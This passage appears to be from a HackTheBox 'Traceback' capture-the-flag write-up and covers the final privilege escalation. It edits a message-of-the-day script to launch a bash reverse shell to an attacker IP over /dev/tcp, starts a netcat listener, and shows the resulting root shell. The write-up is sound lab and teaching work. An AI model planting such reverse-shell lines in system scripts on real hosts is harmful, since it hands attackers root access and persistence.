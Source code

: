 After looking through all the message of the day files, 00-header seemed to be the one most likely to succed in producing a root shell.  

Editing /etc/update-motd/00-header to change the following line from:
```
echo "\nWelcome to Xh4H land \n"
```
to
```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/8899 0>&1'
```
As seen here:
![Edit motd file](img/traceback-14-privesc_to_root-motd-update.png)


Next, start up a netcat listener on the attack box.
```
# nc -nvlp 8899
```
Start a listener for the root prompt.
```
# nc -nvlp 8899
listening on [any] 8899 ...
```
Now log back into traceback via ssh
```
# ssh sysadmin@traceback.htb
```
Root connection coming into netcat
``` 
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.181] 58202
bash: cannot set terminal process group (100762): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# hostname
hostname
traceback
root@traceback:/# cd /root
cd /root
root@traceback:/root# ls -l
ls -l
total 4
-r-------- 1 root root 33 May  3 22:12 root.txt
```
Grab root flag